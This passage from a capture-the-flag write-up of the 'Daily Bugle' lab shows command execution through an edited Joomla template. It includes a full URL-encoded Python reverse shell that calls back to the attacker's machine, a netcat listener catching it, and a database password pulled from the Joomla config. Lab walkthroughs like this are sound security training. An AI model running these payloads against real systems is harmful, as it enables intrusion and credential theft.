 Saving these changes we can navigate to http://10.10.182.0/templates/protostar/error.php?cmd=id to confirm code execution:

![daily_bugle_id.png](../assets/daily_bugle_assets/daily_bugle_id.png)

Lets head to revshells.com and grab a URL encoded Python reverse shell command.

We can then navigate to:
```
http://10.10.182.0/templates/protostar/error.php?cmd=python%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%2210.6.72.91%22%2C443%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3Bos.dup2%28s.fileno%28%29%2C2%29%3Bimport%20pty%3B%20pty.spawn%28%22%2Fbin%2Fbash%22%29%27
```

To catch a shell back as  the user apache:

```
┌──(ryan㉿kali)-[~/THM/Daily_Bugle]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.6.72.91] from (UNKNOWN) [10.10.182.0] 33564
bash-4.2$ whoami
whoami
apache
bash-4.2$ hostname
hostname
dailybugle
```

We get a permission denied trying to access the user.txt flag in jjameson's directory:

```
bash-4.2$ cd /home
bash-4.2$ ls
jjameson
bash-4.2$ cd jjameson
bash: cd: jjameson: Permission denied
```

Looking at the config file for Joomla in `/var/www/html` to find a password: `nv5uz9r3ZEDzVjNu`
